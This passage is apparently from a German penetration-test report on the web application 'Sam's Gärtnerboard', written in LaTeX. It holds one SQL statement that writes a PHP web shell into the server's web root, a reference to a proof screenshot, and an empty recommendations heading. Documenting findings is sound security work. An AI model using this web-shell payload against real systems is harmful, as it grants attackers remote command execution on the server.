 \begin{listing}[!ht]
\begin{verbatim}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{verbatim}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}


\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/03_sam_db_proof.png}
    \caption{Proof für die Datenbank zur Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_db_proof}
\end{figure}

\subsection*{Empfehlungen}
Empfehlungen
